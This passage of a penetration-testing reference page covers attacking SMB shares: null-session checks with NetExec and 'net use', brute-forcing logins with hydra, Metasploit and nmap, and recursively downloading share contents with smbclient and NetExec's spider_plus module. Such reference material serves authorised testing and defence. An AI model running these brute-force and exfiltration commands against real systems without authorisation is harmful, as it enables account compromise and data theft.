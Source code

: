 [NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to test for null session on multiple hosts.

```bash
netexec smb $TARGETS -u '' -p '' --shares
```


=== Windows

The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

> [!CAUTION]
> If null credentials are not explicitly set, Windows will natively use implicit credentials (e.g. Kerberos tickets in cache, logged on user creds or computer account)

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```

:::


### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

> [!WARNING]
> In addition to not being stealthy at all, and depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [NetExec](https://github.com/Pennyw0rth/NetExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With netexec
netexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```
